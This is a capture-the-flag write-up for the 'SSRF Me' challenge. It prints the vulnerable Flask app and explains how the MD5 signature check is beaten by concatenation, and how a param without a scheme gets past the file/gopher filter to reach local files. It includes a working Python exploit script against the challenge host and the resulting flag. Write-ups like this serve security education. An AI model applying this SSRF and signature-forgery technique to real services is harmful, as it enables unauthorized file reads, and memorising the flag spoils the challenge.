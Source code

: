 # SSRF Me - Writeup

##### By _sh4d0w58_

### Description:

> SSRF ME TO GET FLAG. [http://139.180.128.86/](http://139.180.128.86/)

### Solution:

On visiting [http://139.180.128.86/](http://139.180.128.86/) we are given the source code of the Flask App that we are interfacing with:

```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json

reload(sys)
sys.setdefaultencoding('latin1')
app = Flask(__name__)
secert_key = os.urandom(16)

class Task:
	def __init__(self, action, param, sign, ip):
		self.action = action
		self.param = param
		self.sign = sign
		self.sandbox = md5(ip)
		if(not os.path.exists(self.sandbox)):
			#SandBox For Remote_Addr
			os.mkdir(self.sandbox)

	def Exec(self):
		result = {}
		result['code'] = 500
		if (self.checkSign()):
			if "scan" in self.action:
				tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
				resp = scan(self.param)
				if (resp == "Connection Timeout"):
					result['data'] = resp
				else:
					print resp
					tmpfile.write(resp)
					tmpfile.close()
					result['code'] = 200
			if "read" in self.action:
				f = open("./%s/result.txt" % self.sandbox, 'r')
				result['code'] = 200
				result['data'] = f.read()
			if result['code'] == 500:
				result['data'] = "Action Error"
		else:
			result['code'] = 500
			result['msg'] = "Sign Error"
		return result

	def checkSign(self):
		if (getSign(self.action, self.param) == self.sign):
			return True
		else:
			return False

#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
	param = urllib.unquote(request.args.get("param", ""))
	action = "scan"
	return getSign(action, param)

@app.route('/De1ta',methods=['GET','POST'])
def challenge():
	action = urllib.unquote(request.cookies.get("action"))
	param = urllib.unquote(request.args.get("param", ""))
	sign = urllib.unquote(request.cookies.get("sign"))
	ip = request.remote_addr
	if(waf(param)):
		return "No Hacker!!!!"
	task = Task(action, param, sign, ip)
	return json.dumps(task.Exec())

@app.route('/')
def index():
	return open("code.txt","r").read()

def scan(param):
	socket.setdefaulttimeout(1)
	try:
		return urllib.urlopen(param).read()[:50]
	except:
		return "Connection Timeout"

def getSign(action, param):
	return hashlib.md5(secert_key + param + action).hexdigest()

def md5(content):
	return hashlib.md5(content).hexdigest()

def waf(param):
	check=param.strip().lower()
	if check.startswith("gopher") or check.startswith("file"):
		return True
	else:
		return False

if __name__ == '__main__':
	app.debug = False
	app.run(host='0.0.0.0',port=80)
```

Looking over it, we see that visiting `"/De1ta"` will execute the `challenge()` function and construct a new `Task` object with an `action`, `param`, and `sign` that we provide as cookies and a GET parameter. (Also our `ip` is passed to it). Then it will call the `Exec()` method of the object and return the json result.

```python
task = Task(action, param, sign, ip)
return json.dumps(task.Exec())
```

Inside `Exec()`, `checkSign()` is called. This function checks whether the `sign` value is the same as the value generated by `getSign()`. We have to pass this check to move on to the rest of `Exec()`.

```python
def checkSign(self):
		if (getSign(self.action, self.param) == self.sign):
			return True
		else:
			return False
```

`getSign()` performs an md5 hash with `secret_key + param + action`. `secret_key` is a random value that is generated by the App, so we don't know it.

```python
def getSign(action, param):
	return hashlib.md5(secert_key + param + action).hexdigest()
```

So now we need a way to generate a valid sign. Making a request to `/geneSign` will generate a `sign` value for us, however it will only allow us to pass it the `param` value and the `action` value will be set to `"scan"`.

```python
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
	param = urllib.unquote(request.args.get("param", ""))
	action = "scan"
	return getSign(action, param)
```

Now that we can generate a valid `sign` value, we can pass the check and move on to the rest of `Exec()`. The first `if` case checks if `"scan"` is `in` `action`. Notice, it does not check whether `action == "scan"`, only whether it contains it. This will be important later. The `"scan"` action will make a request with the value of `param` and write it to a file.

```python
if "scan" in self.action:
	tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
	resp = scan(self.param)
	if (resp == "Connection Timeout"):
		result['data'] = resp
	else:
		print resp
		tmpfile.write(resp)
		tmpfile.close()
		result['code'] = 200
```

The second `if` case performs the same check with `"read"`. This action will read the file that we just wrote the result of `"scan"` to.

```python
if "read" in self.action:
	f = open("./%s/result.txt" % self.sandbox, 'r')
	result['code'] = 200
	result['data'] = f.read()
```

Going back to the `"scan"` case, we see the function `scan()` is called with our `param`. This function will use `urllib.urlopen()` to perform the request and this is where the SSRF vulnerability is.

```python
def scan(param):
	socket.setdefaulttimeout(1)
	try:
		return urllib.urlopen(param).read()[:50]
	except:
		return "Connection Timeout"
```

To read local files we could use the `"file://"` protocol, however any `param` value that starts with `"file"` or `"gopher"` is blocked in the `challenge()` function. I believe there are multiple ways to get past this, but I noticed that starting `param` without a protocol would attempt to read files from the file system. The challenge hint says...

> flag is in ./flag.txt

This will allow us to read the flag into a file, but we will not be able to read it without a valid sign with the action **including** `"read"`. If we can generate a sign for the `action` as `"readscan"`, we can perform the scan and read the result in one go.

Notice, `geneSign()` will perform an md5 hash of `secret + param + action` so we can pass the value of `param` as `"flag.txtread"` (the value of `action` will be `"scan"`) and generate the _same_ hash as if we pass `param` as `"flag.txt"` and `action` as `"readscan"`.

```python
"flag.txtread"+"scan" == "flag.txt"+"readscan"
```

You could also use a length extension attack, but this way is more simple.

So our exploit is complete.

We get the flag `"de1ctf{27782fcffbb7d00309a93bc49b74ca26}"`

### Full Code:

```python
import requests

def geneSign(param):
	return requests.get("http://139.180.128.86/geneSign?param="+param).text

realParam = "flag.txt"

param = realParam+"read"
sign = geneSign(param)
param = realParam

action = "readscan"

answer = requests.get("http://139.180.128.86/De1ta?param="+param, cookies={"action":action,"sign":sign}).text

print(answer)
```
